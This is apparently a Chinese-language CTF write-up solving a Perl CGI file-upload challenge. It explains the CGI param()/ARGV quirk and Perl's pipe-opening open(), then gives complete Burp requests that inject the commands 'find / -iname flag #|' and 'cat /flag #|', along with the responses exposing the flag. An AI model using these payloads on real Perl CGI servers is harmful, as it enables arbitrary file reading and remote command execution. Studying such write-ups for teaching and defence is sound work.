 xmax-web-i-got-id-200

打开网站，发现Files选项进去以后可以上传文件，submit按钮作用是将上传的文件内容显示在下面

点击Hello World栏会提示`Hello World from Perl!`看出使用**perl**语言写的

根据perl的语法猜测这个文件上传是这样写的

```per
if ($cgi->upload('file')) {
    my $file = $cgi->param('file');
    while (<$file>) {
        print "$_";
        print "<br />";
    }
}
```

**漏洞在param()**

`my $file = $cgi->param('file');`

> param() returns a **LIST of ALL** the parameter values but **only** **the first value is inserted into $file**

`while (<$file>)`

>“`<>`” doesn’t work with strings unless the string is **“ARGV”**, so it loops through the ARG values and inserting each one to an `open()` call
>**=> We can read content of any file by assign the scalar value first, so $file will be assigned our scalar value instead of the uploaded file descriptor**

param()函数会返回一个列表的文件但是只有第一个文件会被放入到下面的file变量中。而对于下面的读文件逻辑来说，如果我们传入一个ARGV的文件，那么Perl会将传入的参数作为文件名读出来。这样，我们的利用方法就出现了：在正常的上传文件前面加上一个文件上传项ARGV，然后在URL中传入文件路径参数，这样就可以读取任意文件了。

注意ARGV是PERL默认用来接收参数的数组,不管脚本里有没有把它写出来,它始终是存在的。



> 所以可以通过上传多个文件，第一个文件内容是`ARGV`，并在url上附上参数来达到这个目的。

单独上传一次文件，burpsuit截取的包是这样的

>POST /cgi-bin/file.pl HTTP/1.1
>Host: 111.198.29.45:43313
>User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:68.0) Gecko/20100101 Firefox/68.0
>Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
>Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
>Referer: http://111.198.29.45:43313/cgi-bin/file.pl
>Content-Type: multipart/form-data; boundary=---------------------------13271546801723549018281431143
>Content-Length: 347
>Connection: close
>Cookie: PHPSESSID=rj6tgg529u9r3ei026pemdf425
>Upgrade-Insecure-Requests: 1
>
>-----------------------------13271546801723549018281431143
>Content-Disposition: form-data; name="file"; filename="1.py"
>Content-Type: text/x-python-script
>
>123
>
>-----------------------------13271546801723549018281431143
>Content-Disposition: form-data; name="Submit!"
>
>Submit!
>-----------------------------13271546801723549018281431143--

要一起上传2个文件，且第一个文件的内容是ARGV的话，只要把与file有关的头和分隔复制一下即可

```txt
-----------------------------13271546801723549018281431143
Content-Disposition: form-data; name="file"; 
Content-Type: text/x-python-script

ARGV
-----------------------------13271546801723549018281431143
Content-Disposition: form-data; name="file"; filename="1.py"
Content-Type: text/x-python-script

123

-----------------------------13271546801723549018281431143
Content-Disposition: form-data; name="Submit!"

Submit!
-----------------------------13271546801723549018281431143--
```



**open() in Perl**

> Let me talk about **Perl’s open()** function. This function can also execute commands, because it is used to open pipes. In this case, you can use | as a delimiter, because Perl looks for | to indicate that open() is opening a pipe. An attacker can hijack an open() call which otherwise would not even execute a command by adding a | to his query.



构造查找flag位置的请求头：

```txt
POST /cgi-bin/file.pl?find%20/%20-iname%20flag%20%23| HTTP/1.1
Host: 111.198.29.45:43313
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Referer: http://111.198.29.45:43313/cgi-bin/file.pl
Content-Type: multipart/form-data; boundary=---------------------------13271546801723549018281431143
Content-Length: 498
Connection: close
Cookie: PHPSESSID=rj6tgg529u9r3ei026pemdf425
Upgrade-Insecure-Requests: 1

-----------------------------13271546801723549018281431143
Content-Disposition: form-data; name="file"; 
Content-Type: text/x-python-script

ARGV
-----------------------------13271546801723549018281431143
Content-Disposition: form-data; name="file"; filename="1.py"
Content-Type: text/x-python-script

123

-----------------------------13271546801723549018281431143
Content-Disposition: form-data; name="Submit!"

Submit!
-----------------------------13271546801723549018281431143--
```

响应：

```txt
HTTP/1.1 200 OK
Date: Sat, 03 Aug 2019 04:52:10 GMT
Server: Apache/2.4.18 (Ubuntu)
Vary: Accept-Encoding
Connection: close
Content-Type: text/html; charset=ISO-8859-1
Content-Length: 562

<!DOCTYPE html
	PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN"
	"http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd"
>
<html xmlns="http://www.w3.org/1999/xhtml" lang="en-US" xml:lang="en-US">
	<head>
		<title>Perl File Upload</title>
		<meta http-equiv="Content-Type" content="text/html; charset=iso-8859-1" />
	</head>
	<body>
		<h1>Perl File Upload</h1>
		<form method="post" enctype="multipart/form-data">
			File: <input type="file" name="file" />
			<input type="submit" name="Submit!" value="Submit!" />
		</form>
		<hr />
/flag
<br /></body></html>
```

即flag文件在`/flag`里

构造查看flag的请求头：

```txt
POST /cgi-bin/file.pl?cat%20/%20/flag%20%23| HTTP/1.1
Host: 111.198.29.45:43313
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Referer: http://111.198.29.45:43313/cgi-bin/file.pl
Content-Type: multipart/form-data; boundary=---------------------------13271546801723549018281431143
Content-Length: 498
Connection: close
Cookie: PHPSESSID=rj6tgg529u9r3ei026pemdf425
Upgrade-Insecure-Requests: 1

-----------------------------13271546801723549018281431143
Content-Disposition: form-data; name="file"; 
Content-Type: text/x-python-script

ARGV
-----------------------------13271546801723549018281431143
Content-Disposition: form-data; name="file"; filename="1.py"
Content-Type: text/x-python-script

123

-----------------------------13271546801723549018281431143
Content-Disposition: form-data; name="Submit!"

Submit!
-----------------------------13271546801723549018281431143--
```

响应：

```txt
HTTP/1.1 200 OK
Date: Sat, 03 Aug 2019 04:53:39 GMT
Server: Apache/2.4.18 (Ubuntu)
Vary: Accept-Encoding
Connection: close
Content-Type: text/html; charset=ISO-8859-1
Content-Length: 601

<!DOCTYPE html
	PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN"
	"http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd"
>
<html xmlns="http://www.w3.org/1999/xhtml" lang="en-US" xml:lang="en-US">
	<head>
		<title>Perl File Upload</title>
		<meta http-equiv="Content-Type" content="text/html; charset=iso-8859-1" />
	</head>
	<body>
		<h1>Perl File Upload</h1>
		<form method="post" enctype="multipart/form-data">
			File: <input type="file" name="file" />
			<input type="submit" name="Submit!" value="Submit!" />
		</form>
		<hr />
cyberpeace{edaa0b9311a29dd3bfbf176adcb61e53}
<br /></body></html>
```

p.s `%23`为`#`的url编码

https://gist.github.com/kentfredric/8f6ed343f4a16a34b08a



perl CGI

https://www.grm.cuhk.edu.hk/~htlee/perlcourse/fileupload/fileupload2.html